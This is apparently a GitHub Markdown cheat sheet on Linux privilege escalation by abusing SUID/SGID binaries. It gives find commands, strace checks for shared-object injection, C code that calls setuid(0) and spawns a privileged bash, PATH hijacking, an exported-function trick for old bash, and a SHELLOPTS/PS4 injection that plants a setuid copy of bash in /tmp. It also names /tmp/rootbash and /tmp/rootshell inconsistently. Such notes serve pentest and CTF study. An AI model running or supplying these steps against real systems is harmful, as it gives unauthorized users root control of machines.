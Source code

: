 # Privileges Escalation - Linux
# Exploiting SUID/SGID 

- [Definitions](#definitions)
- [Where are these bits?](#wherearethesebits)
- [Finding SUID/SGID executables](#findexe)
- [Shared objects vulnerability](#sharedobj)
- [Environment variables without full paths](#envwithoutpath)
- [Environment variables with full paths and vulnerable shell](#envwithpathandvulnshell)

## Definitions
- **SUID**: **Set User ID**. When a binary has the SUID bit set, anyone who runs it does so with the permissions of the file's owner, usually **root**. Useful for allowing users to run programs that require elevated privileges without giving full root access.
- **SGID**: **Set Group ID**. When a binary has the SGID bit set, anyone who runs it does so with the file's group (not the caller's).

## Where are these bits?
If we run the `ls -l` command, this output will be shown:<br> `<Obj Type><User permissions>-<Group permissions> <Obj Owner> <Obj Group>`<br>
(`Obj Type` could be `.` if it's a file or `d` if it's a directory).<br>
So, if we have an `s` in `User permissions`, the file has the SUID bit set. <br>If we have an `s` in `Grpup permissions`, the file has the SGID bit set.

## Finding SUID/SGID executables
- `find / -type f -perm /6000`: finds binaries which have the SUID **or** SGID bit set.
- `find / -type f -perm -6000`: finds binaries which have **both** the SUID **and** SGID bit set.
- `find / -type f -perm -4000`: finds binaries which have **only** the SUID bit set.
- `find / -type f -perm -2000`: finds binaries which have **only** the SGID bit set.

Type `2>/dev/null` in the end to discard the standard error.<br>
If we look for binaries and we find an obsolete one (so vulnerable, for example `/usr/sbin/exim-4.84-3`):
- Search those versions on https://exploit-db.com or somewhere else, for example Github.
- Copy the exploit and paste it on a `.sh` file, to make it runnable.
- Then run it to escalate privileges. Check if we became **root** with `whoami`.

## Shared objects vulnerability
Some binaries could be vulnerable to shared objects injections.
- `strace <Binary Path> 2>&1 | grep -iE "open|access|no such file"` to look for missing dependencies.
- If we find a missing file from an accessible location (for example the `/home` directory), we could create it and place a root shell in it.

## Environment variables without full paths
Some binaries could have readable sequences of characters and they can be exploited, because they inherit the user's PATH environment variable and they attempt to execute programs without specifying an absolute path.
- `strings <Binary Path>` to look for readable ASCII or Unicode characters. If we find some interesting stuffs like (for example) `system` and `service` **without** its full path (`/usr/sbin/service`):
  - We can exploit it creating a `.c` program:
    ```
    int main() {
            setuid(0);  
            system("/bin/bash -p"); 
    }
    ```
    In which:
      - `setuid(0)` => root id.
      - `system` => command to exploit.
      - `/bin/bash -p` => privileged shell.
  - Let's compile it to make an executable file, called exactly as the command we are going to exploit: `gcc <name>.c -o service`
  - In the end, we have to tell the binary "I want you to look for `service` in my own path first, then in the others", so `PATH=.:$PATH <Binary Path>`:
    - `.` => our current directory.
    - `:$PATH` => join the original path.
  - Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

## Environment variables with full paths and vulnerable shell
Check the shell version, for example with `/bin/bash --version` (if the shell is Bash). 
<br>If the version is **below** 4.2-048, it's vulnerable and we can exploit shell functions with names that resemble file paths.
- If the previous `service` is defined **with** its full path (`/usr/sbin/service`), we can exploit it through the shell vulnerability.
- So let's create a custom function that executes bash code:
  - `function /usr/sbin/service { /bin/bash -p; }` to run a root shell
  - `export -f /usr/sbin/service`
- Now, running the binary we should be able to gain access to a root shell. Check it with `whoami`.

If the shell version is **above** that one, anyway it will read `SHELLOPTS` and `PS4` variables before removing the SUID privileges (known bug). So we can exploit it with:
  - `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' <Binary Path>` in which:
    - `env -i` executes a program in an empty environment, without inheriting any variables.
    - `SHELLOPTS=xtrace` turns on the debug mode.
    - `PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'` sets a debugging prompt, that will be printed before each command.
      - It copies the Bash shell in the `/tmp` directory and gives it execution permissions with UID = 0 (root)
- Now, running the shell with `/tmp/rootshell`, we should be able to gain access to a root shell. Check it with `whoami`.     













